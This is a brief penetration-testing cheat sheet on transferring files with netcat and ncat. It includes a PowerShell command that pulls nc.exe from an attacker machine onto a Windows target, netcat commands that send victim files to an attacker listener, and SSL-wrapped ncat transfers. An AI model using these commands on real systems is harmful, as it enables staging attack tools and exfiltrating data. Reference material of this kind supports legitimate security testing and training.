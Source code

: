 
# File Transfers with nc



```
locate nc.traditional
locate nc.exe
```


??
```
{ echo -e "GET /[FILE NAME] HTTP/1.0\r\n"; sleep 1; } | nc -n [IP] [PORT] > [OUTPUT NAME] && sed -i '1,/^$/d' [OUTPUT NAME]
```






1. get `nc.exe` from windows-binaries
```
powershell wget -Uri http://[ATTACKER MACHINE]/nc.exe -OutFile C:\Windows\Temp\nc.exe
```


2. From Kali, listen for incoming data and write it to a file:
```
nc -lvp 1234 > received_file.txt
```



3.a. Using CMD, send the file to the Kali Linux machine:
```
nc.exe <kali_ip> 1234 < C:\path\to\file.txt
```


3.b. Using PowerShell:
```
cmd.exe /c "your-cmd-command-here"

Get-Content -Path "C:\Users\username\Desktop\example.txt" | nc.exe 192.168.1.10 1234
```

















## Encrypted & Secure File Transfer

Set up listener on the TARGET:
```
ncat -nvlp port --ssl > out-file
```

And connect to the listener from the ATTACKER MACHINE:
```
ncat -nv target-ip port --ssl < file-to-send
```

